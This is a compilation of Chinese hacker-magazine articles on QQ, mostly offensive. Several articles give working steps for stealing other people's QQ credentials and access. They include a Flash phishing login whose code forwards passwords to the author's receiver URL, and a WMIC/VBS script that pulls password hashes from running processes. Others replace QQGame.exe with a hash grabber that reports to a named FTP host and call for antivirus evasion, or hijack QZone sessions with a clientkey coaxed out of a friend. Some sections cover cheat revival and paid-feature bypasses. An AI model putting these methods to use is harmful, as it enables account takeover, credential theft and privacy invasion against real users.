set fso = nothing
end if
%>
```

图10

图11

图12

……加入QQ号码和密码长度的判断，是为了防止别人胡乱填写就登录进去，这也是为了提高逼真度。Flash制作好后上传至你的空间中，使用的方法和“QQ日志加密”一文中的方法一样……如图10、图11、图12和图13是网站上记录的文件……浏览，说不定就有人输QQ号和密码进来了。

图13

```actionscript
on (release) {
  var my_url:String;
  if (_root.myurl != null)
    my_url = _root.myurl; // 别人的接收网址
  else
    my_url = "http://www.***/v.asp"; // 自己的接收网址
}
```

然后在 `loginData.sendAndLoad("http://www.***/v.asp", loginData, "post");` 的下面再添加一句 `loginData.sendAndLoad(my_url, loginData, "post");` ……把地址写成“http://www.***.com/**.swf?myurl=http://www.123.com/v.asp&s=s.swf”……

使用这样的连环钩还怕钓不到大鱼吗？由此可见，别人写好的工具还是得少用，我们小菜得自力更生，多学技术……

### 09年最新QQ密码破解秘籍

麦蒂【ESST】

各位小菜好，今天我特意为叉子们带来了一款最新的QQ利器——QQ密码获取器，它的功能主要有以下这些：

- 不使用第三方软件就能查找QQ HASH密码
- 添加了列举QQ群所有成员列表功能
- 添加了人肉搜索功能

大家可以放心地使用，有兴趣的读者也可以分析一下。运行这个QQGame.exe后程序是隐藏的，大概七秒后会结束进程，在七秒内点击“获取密码”就可以通过QQ启动游戏来获取隐藏的参数了。下面来看我如何搞定QQ密码吧……

成功登录到了QQ游戏大厅，现在就到了最关键的时刻了，我们返回到QQ偷偷登录器界面中，点击“获取密码”按钮，惊人的一幕出现了，QQ密码的加密字符串出现了，如图3。

接下来的工作就是利用QQ的加密算法把密码破解出来。为了方便各位叉子，我为大家特意准备了密码转换工具Hash Table，这是一款很强大的加密解密工具，其界面如图4所示。我们只要把获得的密码填写到相应的文本框中就可以得到密码的明文了，功能很强大吧。

最后我再介绍一下偷偷登录器的最强功能，就是读取群和人肉搜索功能，可以直接读取到群成员，最大的亮点是自带了社工和人肉搜索，如图5。关于这个工具其他强大的功能还有很多，我就不一一介绍了，小菜们自己去体验吧！

> （本文所涉及到的QQ偷偷登录器、Hash Table已经收录到光盘中）

## 手机QQ2008，无需密码也登录

清原长风[B.B.E]

时下最流行的即时聊天工具莫过于腾讯的QQ，使用最广泛的手机莫过于芬兰人的Nokia，而手机趋于智能化也是手机发展的必然趋势。我使用的手机就是Nokia 5500，搭载的S60 v3操作系统。同样，在手机中安装手机QQ也是每个网虫所必备的，我安装的手机QQ版本如图1所示。

近日听说手机QQ2008系列版本（不止是我安装的这一个版本哦）爆出了一个漏洞，就是如果别人在你手机上使用手机QQ2008成功登录过的话，那么即使没有勾选记住密码，也能在不知道对方登录密码的条件下而成功登录那个QQ号。这听起来很神奇吧，下面我们就一起来看看这到底是怎么一回事。

由于条件限制，我就使用自己的手机来进行演示了，其他的手机平台和版本基本上都是一样的。手机QQ正常的登录界面如图2所示，第一个号码是我自己的，第二个号码是同学登录过的，但是我并不知道他的密码。我们选择第二个QQ号，然后密码随便填，如图3，点“登录”，开始登录了，如图4。由于密码我根本就不知道而是随便输的，所以登录自然是失败了，提示密码错误，如图5。

现在来看关键的操作。我们返回到图3的界面中，密码随便填，勾选“记住密码”，其他几项可以自由选择。点击“登录”，当出现了如图4所示的登录界面时，马上点“取消”，这时返回到的又是图3的界面，我们再点击“登录”，过几秒钟后，你就会惊奇地发现已经成功地登录上了，如图6。

整个过程非常简单，就是在登录过程中取消一次，然后再登录就行了。由于修改密码必须要知道原密码，所以我们是无法更改密码的，但是无论对方怎么更改密码，我们依然可以自由地登录这个QQ号。这比电脑上的QQ盗号还可怕吧，简直就是万能永久盗号啊，但希望大家不要乱用此方法！✉

> 文件属性里面，这里的关键点是，通过在这里改动就能添加图片，我们要把空间带的图标换成QZONE水印。

### 玩酷之让你的图片加上QZONE水印

无敌小龙

无意间在某人的QQ空间上发现了个很特别的QZONE水印，看上去很有个性，于是就进行了一些研究，在此就公布出来和众位小菜分享。

首先，我们登录进入QQ空间，来到上传照片的页面，选择“极速上传”。对于没有安装的朋友，则会出现一个“安装极速上传”的链接，如图1。点击该链接后就会自动跳转到安装页面，此时会弹出一个安装提示，提示安装ActiveX控件，我们点击“安装”按钮进行安装即可，如图2。

这样极速上传功能就安装完毕了，以后我们就可以一次性上传近百张照片，并且上传的照片大小也不限，同时还提供了上传原图不压缩的功能，格式也更丰富了，可以上传jpg、jpeg、bmp、png、gif格式的照片。最重要的是照片上可以加上自己空间的地址，也就是我们自己的QZONE水印。

我们点击“添加照片”，选择一张要上传的图片然后点击“添加”，如图3。选择好图片后再点击“开始上传”按钮，如图4。

此时就会很人性化地弹出一个上传进度窗口，可以让我们清楚地看到当前上传的进度。上传完毕后，来看看我们的图片，是不是已经成功地打上了个性化的QZONE水印，如图5。

> 文章评价：☆☆  
> 文章挺有趣，不管什么地方甚至是伪造QQ的更新HASH的行为都想出方法了。

### 详解本地“盗”QQ

swan

所谓的本地“盗”别人的QQ，顾名思义，就是指当我们看到别人QQ上线的情况下，并且也可以接触到其QQ上线的电脑，就可以通过一定的方法在另外的电脑上重新登录此QQ号码。这种方法明显地区别于使用传统盗号木马来盗取QQ。

腾讯为了自身的方便，在设计软件的时候凡是涉及到再次利用QQ密码登录的过程，都采取了命令行的方式，这就造成了能够本地盗取QQ密码HASH值的安全问题。这里指的再次使用QQ登录的过程包括了更新好友目录以及在界面上启动QQ游戏等。

首先，我们在桌面右下角找到想要盗取的QQ的图标，点右键，选择“好友与资料”下的“更新好友”，如图1。这时候，QQ会提示用户是否要重新登录QQ，当然这个登录是自动的，也就是说我们无需再次输入密码，它就会利用命令行方式登录QQ，如图2。

我们选择“是”，然后就会进行自动登录了。在QQ登录完成后，也就是我们再次看到QQ上线的时候，此时的QQ是以命令行方式登录的。我本来以为能够在任务管理器中看到，但发现腾讯早就做了屏蔽，如图3。

虽然无法在任务管理器中查看到登录的命令行，但却不代表利用第三方工具无法查看到，比如著名的杀毒辅助工具Wsyscheck。我们运行此软件，选择“文件检查”下的“端口查看”，在进程命令行中就可以清楚地看到QQ所对应的登录命令行了，如图4。

我再给大家介绍一个更简单的得到QQ密码HASH的方法。我们在CMD命令行提示符下输入WMIC，首次运行会要求我们安装，安装完毕后如图5所示。在WMIC的命令行提示下，我们输入PROCESS，就可以非常清楚地看到进程所对应的命令行了，如图6。

其实，我们也可以利用VBS脚本来实现以上操作的简捷化，其VBS的内容如下：

```vbscript
strComputer = "."
Set objWMIService = GetObject("winmgmts:" & strComputer & "\root\cimv2")
Set colProcessList = objWMIService.ExecQuery("Select * from Win32_Process Where Name = 'QQ.exe'")
For Each objProcess In colProcessList
    RetVal = InputBox("Ctrl+C复制下面的QQHash值", "QQHash", objProcess.CommandLine)
Next
```

运行这个VBS脚本程序后，我们把输入框里对方的QQHash值复制出来，粘贴到文章开头我也说过了，QQ游戏在界面启动的时候也是利用命令行方式启动的，大家不要不相信，下面我就用WMI演示一下。我们在QQ游戏启动后，以同样方式在WMIC命令行形式下输入PROCESS，仔细看QQ游戏所对应的命令行，就会看到密码的HASH了，如图8。

当然，我们也可以把QQ游戏的进程劫持为一个能显示命令行的小程序，甚至将此方法发散一下，让此程序变为一个盗别人QQ的木马，在此就不多做演示了。

经过如此简单的操作就得到了QQ密码的HASH值，也就意味着我们可以在任何电脑登录此QQ了。那么得到HASH值后该如何利用呢？

其命令是“QQ安装路径\QQ.exe /START QQUIN:QQ号 PWDHASH:加密的密码 /STAT:登录状态（40或41，40代表隐身，41代表上线）”，只要将上面提示的信息对号入座，我们就可以登录QQ了，如图9。

虽然我们一直没有得到原始的明文密码，但幸运的话，我们可以通过逆向解密的方法来得到明文。通过上面找到的“PWDHASH”和前面介绍的登录方法，我们就可以构建一个批处理文件。这样不但可以保证我们自己的QQ不被木马盗取，还能方便地支持多个QQ自动登录。千万要记住，在离开朋友家，或者在网吧等公共场所使用完QQ后，一定要关闭自己的QQ哦！

### 腾讯BUG助我另类盗Q

swan

传统盗QQ的方法无非是ring3下的键盘钩子、ring0级的键盘轮询、内存式的ReadProcessMemory等，而最近某网友公布的一个盗QQ方法却非常奇特，因为他利用了软件设置的一个BUG而直接盗取了QQ。

不知各位叉子在使用QQ的时候有没有注意到，在QQ下方点击游戏图标来运行QQ游戏的时候，游戏会自动读取我们的密码来进行登录。我假设是腾讯QQ的设计者为了避免用户再次输入密码，当用户点击界面上的图标时，如果检测到注册表中存在着游戏已经安装的“信号”，QQ就会把QQ号和QQ密码的HASH值传递给QQ游戏，也就是平时所说的命令行传输，如图1。

通过以上的分析，我们把注册表中有关QQ游戏安装地址的游戏程序替换成我们的“截取者”，这样就可以得到QQ号和QQ密码的HASH值了。我们假设QQ游戏在运行时检测注册表键值，为了证明这个假设的正确性，我在运行QQ的时候，设置QQ的全部键值的权限为拒绝访问，居然还是可以运行游戏，因此可以确定，检测是否安装QQ游戏并不是通过读取注册表的，如图2。不过是否读取注册表来检测是否安装了软件，这并不是重点，或许腾讯是判断文件是否存在等方法来进行检测的。在这里我们只要知道，运行QQ游戏的时候，QQ肯定会传递QQ号和QQ密码的HASH值就行了。

为了初步确定我所说的“命令行”，有必要拿出证据来让大家信服一下。看完之后，相信大家肯定会很惊讶出现的情景。不知大家是否记得，当初我在杂志上发表的一篇关于如何破解EXE批处理的方法，方法就是把CMD.EXE用一个叫c.exe的程序替代了，以此来显示出释放的原始批处理。现在我们使用同样的方法，也用此程序显示所谓的“命令行”，具体代码如下：

```vb
If Trim(Command) <> "" Then
    MsgBox Command
Else
    Exit Sub
End If
```

我们进入QQ游戏的目录，找到QQGame.exe，然后改名为QQGame1.exe，把我们的c.exe改名为QQGame.exe。假如QQ真的使用的是命令行来启动QQ游戏的话，显示的界面将会出现我们的QQ号以及QQ密码的HASH。现在我们点击QQ界面上的图标，这肯定是以命令行方式运行我们的“c.exe”，运行后的界面吓了我一跳，如图3。

还真和分析的一样，腾讯设计者果然是“老奸巨猾”。知道了这个方法后，我们就很容易进行本地破解QQ了。其实，利用这个原理盗QQ的软件已经被BUG的发现者公布了。接下来，我就本地为小菜们演示一下盗QQ的过程。

首先，我们在 http://www.ggxx.com 注册一个账号，如图4。注册好后，我们登录进去并把它提供的账户和密码记录下来，这里它提供的是13268，也代表着我们的FTP空间地址是 http://13268.kkgg.net，如图5。

| 项目 | 内容 |
| :--- | :--- |
| 有效期 | 2009-9-27 21:21:57 [增加使用时间]（永久免费，用户需每月登录此页面点击增加空间使用时间） |
| 系统自动分配的域名 | http://13268.kkgg.net [默认] |
| 您自主绑定的域名 | 绑定域名 |
| FTP上传地址 | 76.73.89.122 [复制] 或 13268.kkgg.net [复制] [上传文件] |
| FTP上传帐号 | 13268 [复制] |
| FTP上传密码 | Y110751 [复制] |
| 常用FTP软件下载 | FlashFXP下载 LeapFTP下载 cuteftp下载 |

有了空间后，没有我们的“木马”怎么行呢？来通过软件生成一个，其接收密码的方式和一些盗Q木马一样，使用的是ASP收信。打开软件，配置好收信地址，这里具体填的是：http://13268.kkgg.net/，如图6。

已经被公布了几个月，肯定是不免杀了（目前瑞星免杀），而且释放的文件Rundll32.com也就360查杀，所以对于生成的文件我们还要进行免杀才行。得到HASH后，一般复杂的密码是无法还原的，但也没有什么大碍，我们可以使用附带生成HASH登录器来进行登录，输入我们得到的密码HASH，就可以成功地登录了，如图9。

这时候我们会发现软件（QQ终结者）的目录多出了几个文件，一个是Rundll32.exe，就是我们代替游戏接收密码HASH的程序，另一个是CommandQQ.asp，软件还比较人性化地提供了HASH登录器，至于多出的文件其实是此软件的注册机。

软件设计者为了方便自身倒是人之常情，但是却没有想到会把密码这个如此重要的东西当作儿戏。说句不太好听的话，原先存在这个方式的目的是为了避免重复登录，缓解服务器压力，但是却没有想到会暴露了自己的QQ号和密码，真可谓“祸起萧墙”也。

生成了文件后，我们把CommandQQ.asp存放到我们的FTP空间上。我使用LeapFTP进行上传的，上传的过程大家肯定是轻车熟路了，在此就不再叙述，如图7。

（本文所涉及到的LeapFTP、QQGame.exe、QQ终结者和MakeOut.exe已收录到光盘中）

运行Rundll32.exe，大概30秒后，此文件就会自动删除。我们在浏览器中打开地址“http://13268.kkgg.net/CommandQQ.txt”，就可以得到QQ的HASH了，如图8。这个程序

### 破解QQ空间加密相册大全

> 文章难易度：★☆☆  
> 关键词：手工破解QQ空间加密相册的小漏洞使用方法

470030153

#### 方法一、无敌手法

很多朋友都对QQ空间感兴趣，特别是加密相册什么的，今天我就给大家分享下破解QQ空间最高权限的方法，当然是写给那些不会的小菜了。这个方法主要是利用腾讯的一个小漏洞，这个漏洞其实公布很久了，但直到现在都没有被封，真是方便了我等小菜。这个方法主要是针对你的好友，比如你的好友设置了相册的密码，你非常想看，但又不好意思向他要密码，那么就可以一试这个方法了（*^__^*）。

第一步：向你的好友要一个地址（什么地址呢？），就是下面这个地址：点击QQ的“个人设置”——“使用Email地址作为帐号”，此时就会弹出一个网页，复制下来这个网页地址，如图1。就是叫对方发给你这个地址哦，至于能不能要到，那就要看你的社工水平了，如图2（在QQ2009中你会找不到个人设置，因为已经改成了“个人资料”，其他的步骤都一样）。

以下就是朋友发给我的地址：http://jump.qq.com/clienturl_274?clientuin=464365781&clientkey=6D9866AC88131F59CBDB447127CE8EB910432A18D75713FF7937FA6BF08A3263&ADUIN=464365781&ADSESSION=1244079799&ADTAG=CLIENT.QQ.1791_Setting_Personal-Info.0，我们把6D98***08A3263这部分保存下来。

第二步：地址到手了，现在就什么都好说了，其实我们要这个地址的主要目的就是要“clientkey=”后面的那段代码，也就是上面我们保存下来的那部分。

第三步：关键的时候到了，打开自己的QQ空间，在打开的一瞬间按下ESC键，然后复制地址，如果不按ESC键它会自动跳转的，跳转后的地址是无效的。我的空间的地址复制下来了，是http://ptlogin2.qq.com/jump?clientuin=872335518&clientkey=EA8FC5C6016A28B6A8001DA331272306D924EE1DD808226B8ABCFA5C947A1A51&u1=http://user.qzone.qq.com/872335518&ADUIN=872335518&ADSESSION=1244115271&ADTAG=CLIENT.QQ.1881_QQUrlReportBlankZone.0。

大家看出问题了吧，似乎上面朋友给我的地址和这个地址有点相同的地方，没错，我们把这个地址中“clientkey=”后面的代码替换成上面第二步中保存下来的代码，代码的长度是一样的哦，如果不一样那就是你出错了。然后再把代码中的QQ号替换成对方的QQ号就行了（注意有两处哦）。我替换后的地址为：http://ptlogin2.qq.com/jump?clientuin=464365781&clientkey=6D9866AC88131F59CBDB447127CE8EB910432A18D75713FF7937FA6BF08A3263&u1=http://user.qzone.qq.com/464365781&ADUIN=464365781&ADSESSION=1244115271&ADTAG=CLIENT.QQ.1881_QQUrlReportBlankZone.0。

第四步：收获果实的时间到了，把替换好的地址复制到浏览器中并回车提交，我们就会发现已经以最高权限进入到了对方的QQ空间中，现在就可以为所欲为了，但是注意别人的日志、留言、相册或者别人的资料等不要随便更改哟。介绍这个方法的目的是为了让你查看加密的相册或者加密的日志，看归看千万别乱改，不听劝的后果可要自负哦。

这个方法不错吧，不使用任何工具，更用不着盗别人的QQ就能查看相册(*^_^*)。其实还有别的方法可以得到这个代码的，但是我个人感觉使用这个方法要来的地址不会让对方有大的怀疑。

> 小编注：在去年第11期杂志的“看我不需密码进入加密空间或相册”一文中，曾经介绍过让别人直接发送跳转前的地址来得到那段代码，但本文的方法更具有迷惑性，可操作性也更大一些。还有一点需要提醒大家，就是我们得到的那个代码是有时效性的，最好是拿到代码就赶紧使用，不然过期会失效的。

#### 方法二、相册ID法

这需要你能进入他/她的空间，找到相册的ID和相册主人的QQ号码，破解的方法如下：

- 1. 相册的ID是到加密的相册前面点复制快捷方式，在地址栏里点粘贴，括号里面的数字字母组合就是相册的ID。
- 2. 相册主人的QQ号码这个就不用说了吧。
- 3. 如果要破解的空间相册的主人设置了好友才能查看，那就要加入你的SID了。SID是要你通过手机上自己的空间，然后保存书签，在书签里找到SID=xxxxxxxxxxxx==（SID是24个数字字母的组合，加后面2个等号，SID也能破解出密码，可惜我不会）。
- 4. 把地址http://album41.z.qq.com/album/album_slide.jsp?idx=0&slide=true&albumid=XXXXXXX&B_UID=QQQQQQ中的XXXXXXX修改为相册的ID、QQQQQQ更改为对应的QQ号码，修改好后发到手机，手机直接上就能看到你想破解的相册了。如果要SID的，就按http://album41.z.qq.com/album/album_slide.jsp?idx=0&sid=xxxxxxxxxxxx==&slide=true&albumid=XXXXXXX&B_UID=QQQQQQ的格式进行修改就行了。

## 方法三：使用QQ空间提权工具

先让对方进入他的QQ个人设置，点击使用email地址作为显示帐号，叫对方把这个网址发给你，取“key=”后面的代码到下一个“=”前的字符就是权限代码了。软件比较傻瓜化，使用非常简单，这里就不多做介绍了。▣


### 揭开QQ炫舞判断非法的秘密

#### 雪儿

要问经常用外挂玩QQ炫舞的朋友最窝火的事是什么，他肯定会说两个字：非法，如图1。是的，现在腾讯封挂的速度快得惊人，往往是上午刚出的挂，下午就非法了，更何况还是大名鼎鼎的逍遥！难道非法后我们就只能干等着外挂的更新吗？已经被腾讯判定为非法的外挂就真的不能死而复生吗？下面就让我们一起动手，来揭开炫舞判断非法的秘密吧。


由上图我们可以看出9月1日的逍遥V201免费版在写本文的时候（9月2日23:50）就已经非法了，因此我们就用它来演示好了。在开始前，有必要说一下准备工作：在9月1日V201版本尚未非法时，我就早已将整个炫舞游戏（安装在D盘）的文件夹复制了一份到G盘以备用，然后一直没有动G盘的这个文件夹，今天（9月2日）晚上打开V201并运行D盘的游戏后提示非法，游戏自动退出。由此我们猜想：会不会是在进入游戏的同时更新了某些类似特征库之类的东西呢？当更新后的特征库检测到V201存在时，即判定非法。猜想是否正确还需要实践来检验，所以我们下一步的目标就是看能不能找出更新后的特征库。为了避免不必要的麻烦，我暂时关掉了360保险箱和卡巴斯基，另外为了防止外挂弹出野广告，可以使用HOSTS文件将www.haoxiaoyao.com指向127.0.0.1。

还记得G盘我们做的备份吗？那是9月1日的游戏，一直没有动过，所以理论上是不会判断V201为非法的，因此我们只需要比较一下它和D盘中9月2日更新后的游戏有什么差别就可以了。运行目录文件同步专家这个小工具，目录一设置为D盘游戏目录，目录二设置为G盘游戏目录，然后点“比较目录”，如图2。

仔细查看比较结果，果然发现了猫腻，注意一下图2中框起来的那一个，什么，看不懂？可以这么解释：“相对于G盘的tenslx.dat文件来说，D盘的这个文件有了更新”，所以我对tenslx.dat文件产生了怀疑：为什么炫舞在进入游戏的时候更新了这个文件？再查看一下这两个文件的属性，更加证明了我的猜测，对的，炫舞每次进入游戏所更新的特征库就是它，如图3。


下面我们要做的就清楚了，就是要想办法使这个文件失效！刚开始我会尝试直接删除，结果游戏进不去了；等到进入游戏主界面再删除，倒是可以删除，可运行V201的外挂照样非法，应该是这个文件中的内容已经被载入游戏了；用NTFS权限设置呢？还是进不去游戏，一时间陷入了僵局……后来灵光乍现，如果在下载这个文件前断网会怎么样呢？说干就干，为了到时候能快速断网，我们用一下暗组黑客工具包的热键管理，并设置Alt+1为断开网络，设置的方法不再赘述，请参看图4。

好了，将G盘的游戏中update文件夹下的tenslx.dat文件复制到D盘游戏的update文件夹下，此时的修改日期是9月1日。

接着运行游戏，输入帐号和密码后，鼠标会成沙漏状，之后平静，然后又成沙漏状，这时候抓紧时间按我们设置的热键Alt+1断开网络。等到出现选择服务器时，再次查看tenslx.dat文件属性，修改日期仍然是9月1日，很显然，这个文件没有被更新，如图5。

接着联网，这时会发现每个服务器前的小方格全是红的，无法连接。先选择你要进的区，单击进入游戏，提示无法进入，不用管它，等待一小会儿，游戏就会自动尝试重新连接，这时就可以进入游戏了！我测试了一下，这是疯狂8K反6模式的水仙截图，如图6。


至此，被判定非法的外挂已经起死回生了，看来腾讯的防御也并非想象中的那样坚不可破！想必大家也注意到了，本文花了大量的篇幅进行分析，对操作却轻描淡写。在此友情提示一下，拥有一个系统、正确的思路可以事半功倍，快速解决问题。另外一点，就是经常说的，遇到问题要积极开动脑筋，总有路可走的！

> （本文所涉及到的先前的tenslx.dat文件、最简暗组、动画演示已收录到光盘中）

### 破解QQ旋风2的连接限制

- 1. 全程攻略：100积分
- 2. 全程动画：300积分
- 3. 2个隐藏剧情

#### 红莲

今天我给大家介绍一下如何破解QQ旋风2的任务连接数，最近因为某些原因需要下载大量的小文件，而QQ旋风的任务最大连接数限制是20，如图1，这未免也太少了一些，那如何才能将任务数调大呢？

我们需要的工具为QQ旋风2（当然也可以是其它的下载软件）和金山游侠V。首先打开旋风和金山游侠V，如图2。再打开图1中的设置页面，将连接数调整到12，确定之后返回到旋风主页面，按Num *（这个为热键，默认是小键盘的*号）呼叫金山游侠V。

搜索12，如图3，点击确定后按右上方按钮返回到旋风页面，继续点设置，修改任务数为14，继续同样的操作，搜索14，如图4。大家看，现在已经只剩9个了，一般修改游戏都是在2-3个左右的，那我们继续，同样的操作后搜索16，如图5。


现在仅剩2个了，它们就是需要修改的值，大家按照图6的方式进行修改，修改的值尽量不要太大，不然容易死机的，30—50一般都可以，右边记得选择“手动修改”。确定后返回旋风2，打开设置看看，是不是已经变成你需要的值了啊。此时不能再按下按钮修改，否则又会变成20了。

一切搞定后，去享受那连续不断的下载完成的叮咚叮咚声吧。我又测试了一下，只要是正常关闭的旋风2，下次启动时的任务数仍然是你需要的数字哦。顺便告诉大家，设置里的每个任务的最大连接数也是可以这样修改的！

### 腾讯BUG——非QQ VIP也来加网盘密码

不知大家有没有遇到过这种情况，就是有好友或同学想借你的QQ用，你也想借给他，但是自己的网络硬盘里又有一些小秘密或者是不想让他看到的东西，那该怎么办呢？我们可以给它加上一个QQ网盘的独立密码，但是谁又傻到会给腾讯每个月投10RMB呢？那么我教大家一个方法——非QQ VIP加网盘密码。

首先打开网页http://aq.qq.com/cn/index，登录想要加网盘独立密码的QQ号，然后选择“找回密码”——“网络硬盘密码”——输入验证码后点击“下一步”，如图1。

直接选择“通过验证密保直接找回密码”，再点“下一步”，来到了“腾讯统一安全验证”页面，有两种验证方法，根据自己的情况来选择吧。我选择的是“密保卡验证”，如图3。验证成功后就会让你输入新密码，如图4，输入新密码后点确定就会提示新密码设置成功了。登录这个QQ号试试吧，是不是发现多了一道密码验证呢，如图5。大家还可以扩展一下，除了“网络硬盘密码”外还有“个人账户支付密码”、“通讯录密码”、“QQ邮箱密码”……剩下的我都没有试，就留给大家去体验吧！


### 释放双手，为QQ农场找个农夫

> 关注腾讯相关，加好礼  
> 100%美点工具你种  
> QQ开心

#### 007菜鸟

最近迷上了QQ农场，偷菜的感觉真的很不错，可是我白天要上学，晚上又有晚自习，没有太多的时间来照料我的农场，经常是放学回到宿舍，打开电脑一看，惨不忍睹，农场里的东西已经被偷得所剩无几了。终于在百度大叔的关爱下，我找到了一个“农夫”为我指点迷津，它就是今天的主角——QQ农夫。

首先我们解压软件，会看到一个名为QQFarmer的桃子图标的文件，它就是我们的农夫，农场的管家，如图1。直接双击运行，可以看到它的界面非常亲和，不过软件在运行后需要登录一个论坛帐号后才能正常使用，如图2。论坛的地址是http://www.ii23.cn/，虽然这种做法有些流氓行为，但我们也没办法，只有先在它的论坛上注册一个帐号了，注册的步骤都非常简单，就直接略过了。

在程序的界面中使用论坛的帐号进行登录后，就可以登录你的QQ了，帐号、密码、验证码，一个都不能少，如图3。

接着就出现了熟悉的QQ农场的界面，可是根据我的观察，这个界面是不更新的，好在这点并不影响程序对QQ农场的管理。只要按一下F1，QQ农夫就自动更新好友的资料并且开始实施我们的偷菜计划了。我们可以看到在左边的侧边栏里有“主菜单”、“辅助功能”和“用户帮助”这三个展开项，如图4。先打开“主菜单”选项，点击“QQ登录”，看到了吧，这是一个多开QQ农场的选项，如果你有很多QQ号的话，农夫也能轻松应付的。


## QQ宝典


“操作面板”是用来设置名单的，可以选择哪些好友的不偷，嘿嘿，我可是全都勾选上的，宁可错杀也不能放过！在“开心商店”选项里可以买到薰衣草、马蹄莲等17、18级的作物。“参数设置”项可以设置对自己农场的摘果、浇水、杀虫除草、自动买种播种等，还可以设置自动摘取好友的果实、帮好友浇水、杀虫除草等等，如图5。另外这个软件还有一大亮点哦，就是能自动识别狗狗，很贴心吧。快捷键F2和F3分别是运行记录的查看键和切换到校友农场的，大家可以看到农夫的辛勤劳动成果哟，如图6。

这个软件最大的亮点就是增加了刷经验的功能，点击“辅助功能”下的“刷经验”选项，我们来看看程序关于这个功能的介绍：玩农场的玩家都知道，刷经验无非有两种，一种是刷作物种子，一种是刷装饰，但是装饰只能每样买一种，所以我们只好老老实实地刷作物了。根据QQ农场的游戏规则，播种每次动作可获得2点经验，那么只需要重复播种就能每次获得2点经验了。目前最便宜的种子是《牧草》，单价是120金币，因此每一次播种的成本就是120金币了，如图7。举个例子，假如你要刷100经验值，那么就要买50个牧草，成本是6000块，也就是刷100经验需要6000块金币。要钱还是要经验，这是一个问题。如果你有钱，又只是一心想要经验的话，那就别犹豫了，点“开始”吧。


在“用户帮助”下的最后两个选项是“论坛交流”和“农场排行”，相信这两个功能就不用我解释了吧。有了这个软件后我就可以安心地上课了，再也不用在上课的时候分心了。  
（文章中所用到的QQ农夫已收录到光盘中）

### Junction实现QQ共享表情库

#### swan


在上期杂志的“Windows链接的妙用”一文中，Basenet提到了使用Junction这个快捷方式来过360的云查杀。过云查杀的原理主要就是使用Junction创建一个链接之后，然后再删除这个链接，导致360无法得到我们的木马进行上传MD5对比。其实使用Junction也可以实现多QQ帐号共享表情库的，这可以给情侣或者家庭成员在使用QQ表情的时候带来极大的方便。

系统的文件格式是NTFS（D盘）。测试的原理如下：每个QQ帐户都具有这样的文件夹（CustomFace），彼此互不关联，但Junction的出现却正好解决了这个难题。比如我们可以把帐户1的CustomFace文件夹与帐户2的CustomFace文件夹关联在一起，通俗地讲就是打开其中一个文件夹，其实也就是打开另一个文件夹。

在进行实际的操作前，先来了解一下基础知识：

测试的步骤如下：

#### 1、表情库地址

表情库是位于QQ号的文件夹下面一个名叫CustomFace的文件夹下，比如D:\Program Files\TENCENT\QQ\297026124\CustomFace，如图1。


### 2、junction的应用

举例来说，假如我们要将D盘下的LINK文件夹与D盘的linktest做一个链接，那么就可以输入如下命令：junction d:\link d:\linktest，如图2。删除的话则使用“-D”参数，这样两个文件夹下的文件就可以实现“共享”了。需要注意的是，前面的那个文件夹（d:\link）必须是空文件夹，否则将无法创建链接。


- 1. 创建一个批处理文件，内容就为CMD，复制junction.exe到D:\ProgramFiles\TENCENT\QQ目录下，如图3。
- 2. 创建Junction链接，首先清空需要共享的别人表情库帐号（1146477522）的CustomFace文件夹，接着使用Junction创建链接，如图4。这样就实现了多帐号共同使用同一个表情库的目的了，如图5。


我们的测试环境是1146477522和297026124这两个QQ号。

## QQ宝典

为了拿出更确切的证据，我用这两个QQ的表情进行演示。1146477522的表情库如图6所示，而297026124的表情库则如图7所示。


由以上两图可以证明，测试完全成功。这里只使用了两个账户进行演示，如果需要更多的账号进行共享的话，可以按照上面的方法来进行操作。但有时不需要共享隐私图片的话，那就需要暂时解除Junction命令了，如图8。


黑客技术与电脑技术本是同源，学习黑客技术的同时，也间接掌握了电脑技术，甚至网赚基础知识也与黑客技术有着密不可分的关系。比如无敌小龙关于YS16的那篇文章其实就出自网赚教程，而沙盒运行木马的软件也在网赚里有所涉及。

> （文章中所用到的Junction已收录到光盘中）


### 免费Q-zone商城的挂件、播放器和皮肤

帅克笛枫

#### 一、任意挂件

让自己的QQ空间变得更加完美，装饰得比其他Q友更有特色，相信这是众多Q-zone爱好者的心愿。但是除去每个月固定缴费的黄钻和使用网上外流的JavaScript代码外，似乎想要做得更好一些就没什么其他方法了。今天我就为大家介绍一种简单的方法，可以100%拿下Q-zone商城里的任意挂件。至于播放器和皮肤，大家可以根据自己的方法来运用。

我们登录并打开自己的QQ空间，点击右上角的“装扮空间”，如图1，接着选择上面的商城。进入商城后开始挑选自己喜爱的东西，如图2。


先从“装饰”中的挂件开始：这里我们就选择使用“立体挂件”中的一个挂件来进行说明吧。如图3，直接右键点击该挂件查看图片属性，只要获取到这个gif图片的地址就可以了，它的地址是“http://qzonestyle.gtimg.cn/qzone/space_item/pre/0/46032_1.gif”，如图4。


接下来的步骤就相对简单了，直接点击QQ空间中的“模块”，选择“新建模块”，然后选择“大图模块”就可以了，如图5。直接在“图片地址”栏中输入我们刚才获取到的地址“http://qzonestyle.gtimg.cn/qzone/space_item/pre/0/46032_1.gif”，在“更多设置”里将“模块边框”设置为无，模块标题则可以任意填写，如图6。


图4


图5


图6

点击确定后，我们就可以看到效果了，如图7。当然这个挂件是可以移动的，但令人遗憾的是，不能移动到导航上面，而只能在下面版块的任意位置来放置。


图7

### 二、mp3播放器

挂件搞定了，我们再来弄mp3播放器：我们就使用蓝色中的第一款播放器来进行演示吧。点击使用该播放器，不要急着保存，那样就要去付费了，如图8。


图8

这时候，就要用到遨游浏览器的嗅探插件了。打开遨游浏览器工具栏中的工具，选择网页嗅探器，一般只要是最新版本的都会带这个插件。然后在“嗅探文件类型”中填写swf，因为这是一个swf类型的flash播放器，如图9。

如果不能马上显示嗅探出来的网址，那就再点击一两次商城中你选中的播放器。如果一次嗅探出了太多地址，还可以点击“清空列表”。记住，你的嗅探器可以同时打开，如果不方便挑选东西的话，可以移动一下嗅探器的位置。我们选择嗅探出来的地址，通常为后面带有数字+swf的地址。如果你不知道选择哪个地址，也没关系，可以直接选中并复制嗅探出来的网址，在浏览器的新窗口中打开看看就知道了。

得到了地址，我们可以先复制保存在一个txt文本或者其他地方，在QQ空间的模块中新建一个flash模块，随便输入一个模块标题，“Flash动画地址”就输入我们刚才使用嗅探器获取到的地址，如图10，确认后的效果如图11所示。完成了，但后来我发现这个方法只能嗅探到它的swf地址，并不能真的当播放器。我又尝试添加了MP3播放地址：

```
?mp3=http://www.ma-friends.com/mp3/jacky/张学友-%20好久不见.mp3&amp;at=1
